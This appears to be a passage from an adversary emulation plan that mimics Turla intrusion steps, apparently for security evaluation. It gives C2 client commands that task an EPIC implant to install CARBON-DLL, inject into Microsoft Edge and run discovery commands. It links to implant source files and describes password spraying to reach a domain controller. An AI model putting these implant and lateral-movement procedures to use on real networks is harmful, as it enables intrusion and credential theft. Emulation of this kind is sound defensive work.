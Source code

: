 * Once the download has completed successfully, wait 1 minute and then task the EPIC implant to execute the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered  with the C2 server
  * 📷 - upload a screenshot of the new implant session.

* Wait 1 minute and then task the Carbon implant to execute some discovery commands:
```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* EPIC
  * File download [DownloadFile](../../Resources/EPIC/payload/src/epic.cpp#L441-L466)


### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Step 5 - Lateral Movement to Domain Controller

:microphone: `Voice Track:`

Step 5 emulates Turla laterally moving to the domain controller by conducting
password spraying to retrieve a domain admin's credentials to the domain
controller and using a scheduled task to gain execution on the domain
controller.

CARBON-DLL downloads a batch script which uses sprays several of the discovered
domain admin accounts with weak passwords, one of which successfully mounts the
`C:\` drive of the domain controller.
